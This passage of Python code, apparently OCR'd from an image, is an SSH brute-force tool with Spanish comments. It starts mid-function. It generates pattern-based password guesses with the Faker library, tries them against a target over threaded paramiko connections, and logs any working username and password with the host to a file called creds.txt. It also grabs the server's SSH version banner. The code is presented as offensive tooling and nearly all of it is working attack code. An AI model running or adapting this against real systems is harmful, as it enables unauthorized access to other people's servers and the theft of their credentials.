     # Generar contraseñas basadas en patrones
    for_ in range(num):
        # Patrones: nombre+numero, empresa+ año, etc.
        passwords.append(fake.password(length=random.randint(8, 12)))
        passwords.append(f"{fake.user_name()}{random.randint(1, 999)}")
        passwords.append(f"{fake.company().replace(' ', '')}{random.randint(2020, 2025)}")
    return list(set(passwords))  # Elimina duplicados

# Conectar y probar credenciales
def try_ssh(ip, port, user, pwd):
    global found
    client = paramiko.SSHClient()
    client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
    try:
        client.connect(ip, port=port, username=user, password=pwd, timeout=3)
        with lock:
            if not found:
                print(f"[+] ¡Joder, éxito! Login: {user}:{pwd}")
                found = True
                with open("creds.txt","a") as f:
                    f.write(f"{ip}:{port} - {user}:{pwd}\n")
        client.close()
        return True
    except Exception as e:
        return False
    finally:
        client.close()

# Worker para hilos
def worker(ip, port):
    while not q.empty() and not found:
        user, pwd = q.get()
        if try_ssh(ip, port, user, pwd):
            break
        q.task_done()

# Escanear versión de SSH
def scan_ssh_version(ip, port):
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(3)
        sock.connect((ip, port))
        sock.send(b"SSH-2.0-Test\n")
        banner = sock.recv(1024).decode().strip()
        sock.close()
        print(f"[*] Versión SSH: {banner}")
        return banner
    except:
        return None

